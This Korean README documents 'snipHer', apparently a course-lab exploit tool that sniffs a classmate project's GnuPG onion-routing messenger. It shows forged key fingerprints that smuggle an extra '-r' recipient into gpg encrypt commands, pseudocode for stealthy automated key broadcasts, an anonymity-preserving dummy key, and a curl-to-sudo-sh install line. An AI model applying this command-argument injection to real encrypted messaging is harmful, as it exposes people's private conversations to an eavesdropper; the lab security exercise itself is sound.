

# snipHer - IS521 Activity 5



### snipHer : SEHer Messenger Sniffer
- 빠르고 정확해 누구나 믿고 쓰는 snipHer
- 새롭게 스니핑한 메시지를 보기 쉽게 정리해 주는 기능

### Abstract
- 원본 메신저로 만든 메시지 스니퍼
- Automated Sniffing, Stealthy Sniffing, Anonymous Sniffing
- Fingerprint를 위조한 악성 Key Protocol 이용
- Docker에 생소한 공격자의 편의성 강화

### snipHer's Features
- Automated Sniffing : 새로운 사용자 접속 시마다 자동으로 악성 Key Protocol을 생성하여 공격
- Stealthy Sniffing : 피해자들의 메신저와 시스템에 아무런 영향 없음
- Anonymous Sniffing : 나의 실제 GnuPG Key 대신 dummy Key를 이용해서 익명성이 보장된 스니핑

### GnuPG Fingerprint
GnuPG에서 모든 Key들은 Fingerprint를 부여받는다. Fingerprint는 20바이트이고, 따라서 Hex 값을 출력하면 40바이트가 된다. GnuPG를 사용한 Encryption 시 수신자의 이름, 이메일 이외에도 Fingerprint를 사용할 수 있다(-r, --recipient 옵션). 뿐만 아니라 Fingerprint의 일부 값을 따온 Long Key Id와 Short Key ID도 사용할 수 있다. Fingerprint, Long Key Id, Short Key ID간의 관계는 다음과 같다.
```
0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 byte(40 byte)
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|C|5|D|8|0|4|C|8|E|5|A|6|C|8|4|7|6|6|C|1|A|8|3|B|9|1|E|0|7|6|0|0|D|9|5|9|5|B|4|8|
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                               |               |               |
|                                               |               |<--  8 byte -->| : Short Key ID
|                                               |                               |
|                                               |<------------------ 16 byte -->| : Long Key ID
|                                                                               |
|<------------------------------------------------------------------ 40 byte -->| : Fingerprint
```
snipHer는 로그인 되어있는 모든 사용자의 Fingerprint를 다음과 같이 변조한다.
```
0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 byte(40 byte)
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|1|2|7|4|5|0|C|0|7|C|7|4|2|2|B|D| | | | | |-|r| |9|1|E|0|7|6|0|0|D|9|5|9|5|B|4|8|
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                               |               |                               |
|<---------- 16 byte ---------->|<--- 8 byte -->|<---------- 16 byte ---------->|
     dummy key의 Long Key ID     -r로 구분 + 패딩      Victim의 Long Key ID
```
이후 악의적인 Key Protocol에 변조된 Fingerprint를 담아서 broadcast한다. 그러면 모든 사용자들의 공개키에 대한 Fingerprint를 덮어쓸 수 있다. 이후, 다음과 같은 암호화 command가 실행된다.
```
gpg --encrypt --armor --yes --trust-model always -r <recipientFpr(40 byte)>
```
하지만 변조된 Fingerprint로 인하여 실제로 실행되는 command는 다음과 같은 모습이다.
```
gpg --encrypt --armor --yes --trust-model always -r <recipientKeyID(16 byte)>    -r <attackerKeyID(16 byte)>
```
따라서 Onion Routing 상의 모든 메시지가 공격자가 사용한 dummy key로 Decrypt 할 수 있게 된다. 이로 인해 snipHer는 메시지를 스니핑할 수 있다.

### Sniffer Design
- Automated Sniffing   
새로운 사용자가 로그인 할 때마다, 악성 Key Protocol을 생성하여 전송해주어야 한다.
```
if(새로운 로그인) {
	// 기존의 키 처리 로직

	for(기존 사용자들) {
		// 기존 사용자들에게 새로운 사용자의 Fingerprint를 조작한 Key Protocol 전송
		Message *mal_fpr_key_alive = new Message(새로운 사용자의 Fpr 조작);
		*mal_fpr_key_alive->SendKey(기존 사용자);
	}
}
```
또한, 새로이 들어온 사용자에게도 다른 기존 사용자들에 대한 악성 Key Protocol을 보내주어야 한다.
```
if(새로운 로그인) {
	// 기존의 키 처리 로직

	for(기존 사용자) {
		// 새로운 사용자에게 기존 사용자들의 Fingerprint를 조작한 Key Protocol 전송
		Message *mal_fpr_key_alive = new Message(기존 사용자의 Fpr 조작);
		*mal_fpr_key_alive->SendKey(새로운 사용자);
	}
}
```

- Stealthy Sniffing
```
if(내 메시지가 아닌가?) {
	// 기존의 Onion Routing도 수행
	Onion_Routing(메시지);

	// decrypt로 스니핑
	while(!원본 메시지) {
		decrypt_message(메시지);
	}
	스니핑_목록.insert(새로 스니핑한 메시지)
}
```
메신저의 기존 기능에 영향을 주지 않으면서 Onion Routing 또한 정상적으로 수행하기 때문에, 다른 사용자들은 공격받고 있는 것을 알기 힘들다.
```
────────────────────────────────────────│───────────────────────────────────────│
ChatRoom with githubB                   │ChatRoom with githubA                  │
Me: hello                               │githubA: hello                         │
githubB: hello, githubA                 │Me: hello, githubA                     │
githubB: what's up?                     │Me: what's up?                         │
Me: nothing special                     │githubA: nothing special               │
Me: wondering if we can play PUBG togeth│githubA: wondering if we can play PUBG │
er tonight                              │together tonight                       │
githubB: the answer is                  │Me: the answer is                      │
githubB: always yes                     │Me: always yes                         │
githubB: bro                            │Me: bro                                │
Me: gooooooooood                        │githubA: gooooooooood                  │
                                        │                                       │
>                                       │>                                      │
────────────────────────────────────────┴───────────────────────────────────────│
Sniffing : githubA<->githubB                                                    │
githubA: hello                                                                  │
githubB: hello, githubA                                                         │
githubB: what's up?                                                             │
githubA: nothing special                                                        │
githubA: wondering if we can play PUBG together tonight                         │
githubB: the answer is                                                          │
githubB: always yes                                                             │
githubB: bro                                                                    │
githubA: gooooooooood                                                           │
>                                                                               │
────────────────────────────────────────┴───────────────────────────────────────│
```

- Anonymous Sniffing   
내가 실제로 사용하는 GnuPG 키를 사용하면 흔적이 남을 수 있다. Decryption에서 다른 수신자들의 목록도 확인가능하기 때문.
```
gpg: encrypted with 1024-bit RSA key, ID F89E96AA679A2BD3, created 2018-03-25
      "githubB"
gpg: encrypted with 1024-bit RSA key, ID 5A3A66CB25AD2473, created 2018-03-25
      "githubA"
hello
```
따라서 누구나 만들 수 있는 dummy key를 생성하여 사용하도록 해서, 공격자의 익명성을 보장하였다.
```
pub   rsa2048/127450C07C7422BD 2018-04-15 [SC]
uid                 [ultimate] dummy
sub   rsa2048/4871630747ECDA7F 2018-04-15 [E]
```
dummy key는 다른 사용자들이 가지고 있지 않기 때문에, 공격자는 dummy라는 사용자가 로그인 후 로그아웃 한 것처럼 일련의 악의적인 Key Protocol을 생성하여 다른 사용자들이 dummy key를 import 하도록 할 수 있다.
```
if(새로운 사용자) {
	Message *dummy_user_key_alive = new Message();
	dummy_user_key_alive->SendKey();
	Message *dummy_user_key_die = new Message();
	dummy_user_key_die->SendKey();
}
```
이후 모든 사용자의 모든 키의 Fingerprint에 dummy key의 Long Key ID를 심어서, 항상 내가 Decrypt 할 수 있도록 한다.

### Installation
- 프로그램 다운로드 및 Docker 설치
```
$ git clone https://github.com/KAIST-IS521/2018s-vuln-2dvorak.git
$ curl -fsSL https://get.docker.com/ | sudo sh
```
- Put [Your ID].key, [Your ID].pub (and your own dummy.key file if you want, but make sure to set its 'Name' field to 'dummy' and its passphrase to 'dummy') in testkey directory
```
$ cd 2018s-vuln-2dvorak/exploit/testkey  
$ gpg --armor --export [githubID] > [githubID].pub
$ gpg --export-secret-keys -a [githubID] > [githubID].key
$ cd ..
```
- Docker 설정
```
# ./AutoDocker.sh
```

### Usage
- startSnipHer.sh 실행 후 ID와 passphrase 입력
- Anonymous Sniffing을 위한 dummy key 제공 : dummy.key (passphrase should be 'dummy')
```
#./startSnipHer.sh
Your Github ID :[YOUR id]
Your passphrase :[YOUR passphrase]
             _         _    _             
            (_)       | |  | |            
 ___  _ __   _  _ __  | |__| |  ___  _ __ 
/ __|| '_ \ | || '_ \ |  __  | / _ \| '__|
\__ \| | | || || |_) || |  | ||  __/| |   
|___/|_| |_||_|| .__/ |_|  |_| \___||_|   
               | |                        
               |_|                          
1. List
2. Talk
3. Sniff
4. SniffAll
5. Exit
```

- List  
로그인한 사용자 목록을 보여주며, 스니핑할 대상을 지정할 수 있다.
```
> 1                                                            
 =====================                                         
1. githubA : 172.17.0.2                                        
2. githubB : 172.17.0.3                                        
 =====================                                         
1                                                              

1. List                                                        
2. Talk                                                        
3. Sniff                                                       
4. SniffAll                                                    
5. Exit                                                        
> 1                                                            
 =====================                                         
1. githubA : 172.17.0.2(Sniffed)                               
2. githubB : 172.17.0.3                                        
 ===================== 
```

- Talk  
기존 메신저에서 제공하는 채팅 기능도 제공한다.
```
┌────────────────────────────────────────────────┐                                                                                                     
│ githubA (0)                              17:37 │                                                                                                     
│ githubB (0)                                    │                                                                                                     
│                                                │                                                                                                     
│                                                │                                                                                                     
│                                                │                                                                                                     
│                                                │                                                                                                     
│                                                │                                                                                                     
│                                                │                                                                                                     
└────────────────────────────────────────────────┘ 

ChatRoom with githubA                                          
Me: sdf
```

- Sniff  
스니핑 대상 지정한 사용자들의 대화 내역을 볼 수 있다.
```
┌────────────────────────────────────────────────┐
│ githubA<->githubB (0)                    17:39 │
│                                                │
│                                                │
│                                                │
│                                                │
│                                                │
│                                                │
│                                                │
└────────────────────────────────────────────────┘

Sniffing : githubA<->githubB                                   
githubB: hey                                                   
githubB: hey                                                   
githubB: a                                                     
githubB: c                                                     
githubB: d                                                     
githubB: b
```

- SniffAll  
모든 사람(메시지)을 스니핑하도록 하는 스위치
```
> 4                                                            
SniffAll on
```

- Exit  
종료
```
> 5                                                            
Good Bye!
ae525de0b4f0
```

### Environment
- Git issue와 milestone을 사용하여 계획적인 프로젝트 진행
- JSON을 사용하여 빠르고 편한 파싱 및 헤더 구성
- ncurses를 이용한 보기 좋은 TUI환경 구성
- Qt Creator를 사용하여 Makefile의 자동 생성 및 편한 개발환경 구축

### Reference
 - https://github.com/nlohmann/json
 - https://github.com/KAIST-IS521/2018s-onion-team3
